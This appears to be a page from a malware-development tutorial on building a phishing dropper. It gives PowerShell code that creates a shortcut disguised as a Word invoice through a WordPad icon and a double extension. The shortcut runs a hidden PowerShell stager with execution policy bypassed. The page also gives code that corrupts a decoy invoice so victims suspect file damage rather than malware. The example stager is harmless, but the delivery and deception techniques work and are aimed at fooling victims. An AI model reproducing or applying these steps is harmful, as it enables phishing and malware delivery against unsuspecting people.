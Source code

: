 ```yaml
---
title: "Step 1: Stager and LNK"
---
```


<h1>Step 1: Stager and LNK</h1>

## Preparing our Environment

In a Windows VM, create a new directory called `PoC Dropper`. Inside, create a subdirectory called `iso`, containing another subdirectory called `stager`. At the end of this section, once we've built the stager and LNK file, the directory tree will look like this:

```sh
PoC Dropper/
├── iso/
│   ├── Invoice_1234.doc.lnk
│   └── stager/
│       └── stager.ps1
└── make_lnk.ps1
```

The `iso` folder will be used for construction of the ISO file in [Step 2](/0x10%20Design/12%20Droppers/30%20ISO/).

## A Basic Stager

We're designing a dropper to launch a stager. Thus, we'll need to build a stager before the dropper can be tested. There's no need to build a fully-functional stager though; a simple PoC will suffice. Since we're targeting Windows, we'll write our PoC stager in PowerShell:

```sh
"Infected!" | Out-File -FilePath $HOME\Desktop\INFECTED.TXT
```

When run, the script will write `Infected!` to a file called `INFECTED.TXT` on the victim's desktop. The TXT file proves the dropper's success. Save the script in the `stager` directory as `stager.ps1`.

With that out of the way, let's build a dropper.

## LNK Construction

To entice victims, our dropper will be disguised as an invoice (per the "fraudulent charge" phishing scheme). To achieve this disguise, the LNK file will use the WordPad icon, so that it looks like a text document. In addition, it will use the `.doc.lnk` double-extension. By default, Windows hides the extensions of known filetypes; with the double-extension trick, coupled with the WordPad icon, it will appear as if the LNK is actually a Microsoft Word document.

You may be wondering: "If we're disguising the dropper as a Microsoft Word document, why are we usig an icon from WordPad?" LNK files do not include built-in icons; instead, they "borrow" icons from other files on the system. If we use the MS Word icon, but the victim doesn't have MS Word installed, the LNK file icon will be broken, and the deception will be incomplete. This problem is averted with WordPad, which has been bundled with every Windows release since Windows 95.

Our dropper doesn't have to be perfect. It just has to be good enough to fool one or two people.

To construct the LNK file, we'll once again be using PowerShell. In the `PoC Dropper` directory, create a script called `make_lnk.ps1`, with the following contents:

```sh
# Configure the launcher.
$exe = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe";
$args = "-NonInteractive -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File .\stager\stager.ps1";
$icon = "C:\Program Files\Windows NT\Accessories\wordpad.exe";
# Create the malicious LNK file.
$wss = New-Object -ComObject WScript.Shell;
$lnk = $wss.CreateShortcut(".\iso\Invoice_1234.doc.lnk");
$lnk.WindowStyle = "7"; # 1 = Default; 3 = Maximized; 7 = Minimized
$lnk.TargetPath = $exe;
$lnk.Arguments = $args;
$lnk.IconLocation = "$icon,0"; # Use the first icon from the target binary.
$lnk.save();
```

Here's what the script does:

1. Create a new `WScript.Shell` object.
2. Use the resulting object to create a new LNK file at `.\iso\Invoice_1234.doc.lnk`.
3. Set the `WindowStyle` attribute to `7`.
    * The [available options](https://www.devguru.com/content/technologies/wsh/wshshortcut-windowstyle.html) are `1`, `3`, and `7`.
    * Style `7` tells Windows to launch the shortcut in a minimized window.
4. Set the `TargetPath` and `Arguments` attributes to launch our stager.
    * Fun fact: These arguments can be abbreviated, and capitalization doesn't matter.
    * E.g. this also works: `-non -nop -ex byp -w hid -fi .\stager\stager.ps1`
5. Set the `IconLocation` to the first icon from `wordpad.exe`.
    * Some apps ship with [multiple icons](https://www.codeproject.com/Articles/19580/Embedding-Multiple-Icons-into-NET-Executables).
6. Save the `.lnk` file to the previously-specified location.

Once the script is saved, run it with PowerShell:

```sh
C:\Users\MalDev\Desktop\PoC Dropper>powershell.exe -file .\make_lnk.ps1
```

When it's complete, you should see the following items in the `iso` directory:

![Screenshot from inside the `iso` directory, showing the `stager` subdirectory and the `Invoice_1234.doc.lnk` file.](./img/lnk.jpg)

The `stager` directory contains the PoC PowerShell stager. The `Invoice_1234.doc.lnk` file uses the WordPad icon. Coupled with the double-extension trick, this completes the illusion.

## Testing the Dropper

Since our PoC stager is benign, we can safely test the LNK file. When executed, a new item appears on the task bar for a split second before vanishing:

![Screenshot showing the minimized window, named `Invoice_1234.doc`.](./img/minimized.jpg)

If the dropper and stager worked properly, you will find a file called `INFECTED.TXT` on the desktop.

# Improving the Design

Thanks to the dropper's disguise, when a vitcim opens the file, they expect Microsoft Word (or another text editor) to appear. Yet, aside from the brief blip on the task bar, nothing happens! This may arouse suspicion. To account for this, we can create a real Microsoft Word document called `Invoice_1234.doc`, store it in the `stager` directory, and launch it along with the stager. Thus, while the victim examines an official-looking statement, our stager will run in the background.

This, of course, requires us to design an official-looking statement. Producing an authentic-looking design can take significant time and effort; any inconsistency or flaw could break the deception. Therefore, we must spend painstaking hours ensuring that our fake invoice is _absolutely perfect_.

Or, if you're like me, you could just say "sod it" and create a corrupted document. Here's how:

1. Create a fake invoice file.
    * Don't worry about formatting.
    * Slap an official-looking logo at the top of the page.
    * List some expensive charges (such as a laptop and accessories).
    * Maybe add an incomplete bit about how to appeal charges. Cut it off mid-sentence.
2. Save the file as `Invoice_1234.doc`, in the `stager` directory.
3. Chop the file in half, resulting in a corrupted and incomplete document.

Here's some PowerShell code to chop your DOC in half:

```sh
$relativepath = "stager\Invoice_1234.doc";
$fullpath = ($relativepath | Resolve-Path);
$size = ((Get-Item $fullpath).length);
$newsize = ($size - ($size % 2)) / 2; # Half size, in full bytes.
$infile = [io.file]::OpenRead($fullpath);
$buffer = New-Object byte[] $newsize;
$infile.Read($buffer, 0, $newsize);
$infile.close();
Remove-Item -path $fullpath;
$outfile = [io.file]::OpenWrite($fullpath);
$outfile.Write($buffer, 0, $newsize);
$outfile.close();
```

This opens the document, saves half of the file into a buffer, then deletes and re-creates the file with only half of its data. The result, when opened in Microsoft Word, will generate an error stating that the file could not be read. Faced with this error, victims may believe that the attachment got corrupted somehow, rather than suspecting malware. If they attempt file recovery, they'll see a bit of text, possibly even the embedded logo, as they would expect from a corrupted file.

Launching the document as part of the LNK dropper is fairly straightforward; I'll leave this as an exercise for the reader. (For a hint, revisit the LNK section of the [Dropper Basics](/0x10%20Design/12%20Droppers/00%20Intro/#the-lnk-dropper) page.)